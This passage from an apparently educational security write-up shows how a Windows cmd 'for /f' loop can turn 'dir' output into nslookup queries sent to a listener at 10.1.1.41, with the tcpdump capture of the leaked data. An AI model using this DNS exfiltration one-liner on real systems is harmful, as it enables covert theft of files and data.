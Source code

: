 I can also combine tokes as I see fit (a silly example):

```

C:\Users\0xdf\test>@echo off & (for /f "tokens=1-26" %a in ('dir') DO echo %c-%b___%a) & @echo on
drive-in___Volume
Number-Serial___Volume
C:\Users\0xdf\test-of___Directory
AM-07:04___02/25/2019
AM-07:04___02/25/2019
0-File(s)___0
4,917,182,464-Dir(s)___2

```

### nslookup Basics

Now I’ll use what I know about looping to generate `nsloopup` commands. If I start with this loop:

```

C:\Users\0xdf\test> for /f "tokens=1-26" %a in ('dir') DO (nslookup %a.%b.%c. 10.1.1.41)

```

Here’s what I see in `tcpdump`:

```

root@kali# tcpdump -ni eth0 udp port 53
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
11:35:55.294278 IP 10.1.1.153.56258 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
11:35:55.296505 IP 10.1.1.153.56259 > 10.1.1.41.53: 2+ A? Volume.in.drive. (33)
11:35:55.296723 IP 10.1.1.153.56260 > 10.1.1.41.53: 3+ AAAA? Volume.in.drive. (33)
11:35:55.318089 IP 10.1.1.153.56261 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
11:35:55.319970 IP 10.1.1.153.56262 > 10.1.1.41.53: 2+ A? Volume.Serial.Number. (38)
11:35:55.320227 IP 10.1.1.153.56263 > 10.1.1.41.53: 3+ AAAA? Volume.Serial.Number. (38)
11:35:55.339339 IP 10.1.1.153.56264 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
11:35:57.338883 IP 10.1.1.153.56265 > 10.1.1.41.53: 2+ A? Directory.of.C:Users0xdftest. (46)
11:35:57.339221 IP 10.1.1.153.56266 > 10.1.1.41.53: 3+ AAAA? Directory.of.C:Users0xdftest. (46)
11:35:57.364436 IP 10.1.1.153.56267 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
11:35:59.364047 IP 10.1.1.153.56268 > 10.1.1.41.53: 2+ A? 02/25/2019.07:04.AM. (37)
11:35:59.365326 IP 10.1.1.153.56269 > 10.1.1.41.53: 3+ AAAA? 02/25/2019.07:04.AM. (37)
11:35:59.423620 IP 10.1.1.153.56270 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
11:36:01.426274 IP 10.1.1.153.56271 > 10.1.1.41.53: 2+ A? 02/25/2019.07:04.AM. (37)
11:36:01.427472 IP 10.1.1.153.56272 > 10.1.1.41.53: 3+ AAAA? 02/25/2019.07:04.AM. (37)
11:36:01.476957 IP 10.1.1.153.56273 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
11:36:03.487602 IP 10.1.1.153.56274 > 10.1.1.41.53: 2+ A? 0.File(s).0. (29)
11:36:03.489038 IP 10.1.1.153.56275 > 10.1.1.41.53: 3+ AAAA? 0.File(s).0. (29)
11:36:03.537786 IP 10.1.1.153.56276 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
11:36:05.527818 IP 10.1.1.153.56277 > 10.1.1.41.53: 2+ A? 2.Dir(s).4,917,108,736. (40)
11:36:05.528172 IP 10.1.1.153.56278 > 10.1.1.41.53: 3+ AAAA? 2.Dir(s).4,917,108,736. (40)

```
